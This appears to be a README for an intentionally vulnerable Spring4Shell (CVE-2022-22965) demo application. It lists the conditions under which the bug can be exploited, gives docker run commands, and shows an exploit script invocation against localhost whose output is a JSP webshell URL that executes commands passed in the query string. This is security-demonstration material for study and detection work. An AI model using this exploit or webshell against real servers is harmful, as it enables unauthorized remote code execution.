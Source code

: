 # Spring4shell RCE vulnerability (CVE-2022-22965)

This vulnerability affects Spring Core and allows an attacker to send a specially crafted HTTP request to bypass protections in the library’s HTTP request parser, leading to remote code execution.

Read more: [The Spring4Shell vulnerability: Overview, detection, and remediation](https://www.datadoghq.com/blog/spring4shell-vulnerability-overview-and-remediation/).

![](./screenshot.png)

In order for this vulnerability to be exploitable, several conditions must be met:
* Use JDK 9 or higher
* Have Apache Tomcat as the servlet container
* Be packaged as a traditional WAR (in contrast to a Spring Boot executable JAR)
* Use the `spring-webmvc` or `spring-webflux` dependency
* Use Spring framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, or older


## Running the application

Run it:

```
docker run --rm -p 8085:8080 --name springshell-rce-poc ghcr.io/datadog/spring4shell-vulnerable-app
```

Build it yourself:

```
docker build . -t spring4shell-vulnerable-app
docker run --rm -p 8085:8080 --name springshell-rce-poc spring4shell-vulnerable-app
```


## Exploitation steps

```
python3 exploit-poc.py --url 127.0.0.1:8085
```

Sample output:

```
[x] Exploiting http://127.0.0.1:8085
[*] Exploitation successful!
[*] Webshell URL: http://127.0.0.1:8085/tomcatwar.jsp?pwd=j&cmd=whoami
```

When you access this URL, it will run any command you pass in the query string.

![](./exploit.png)

If you go inside the running container, you will see that a new file, `tomcatwar.jsp`, has been created.

```
docker exec -it springshell-rce-poc ls /usr/local/tomcat/webapps/ROOT
```
